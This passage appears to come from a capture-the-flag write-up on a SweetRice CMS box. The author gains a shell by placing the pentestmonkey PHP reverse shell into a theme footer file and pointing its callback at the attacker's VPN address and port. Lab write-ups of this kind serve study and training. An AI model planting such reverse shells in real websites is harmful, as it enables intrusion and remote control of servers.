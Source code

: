 We're in! Now we need to find some way to further exploit the server and get a shell. From looking up sweetrice, there are SEVERAL exploits and places where you are able to run PHP code. I tried several different things and nothing worked at all. I had to find my own attack vector. Thinking back to the second dirbuster, we found a themes folder with php files. Let's check out the themes section of the CMS.

![themelist](https://i.imgur.com/Ikazptk.png)

![kekw2](https://i.imgur.com/m7nrOE0.png)

## PHP Reverse Shell

Looks like they both have a footer file mentioned. Let's throw a PHP reverse shell in the footer theme file and see if it works.

I am going to use the shell linked [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

First thing, let's change the parameters of the shell so it calls back to my machine.

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Here's the output of the ``ip a`` command.

```
: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100                                                                                                  
    link/none                                                                                                                                                                                                      
    inet 10.2.19.105/17 brd 10.2.127.255 scope global tun0                                                                                                                                                         
       valid_lft forever preferred_lft forever                                                                                                                                                                     
    inet6 fe80::8976:cb5a:2972:3696/64 scope link stable-privacy                                                                                                                                                   
       valid_lft forever preferred_lft forever
```

Therefore we can change the parameters to this:

```
$ip = '10.2.19.105';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
```

Now let's save it.

![donzo](https://i.imgur.com/75PrZHY.png)
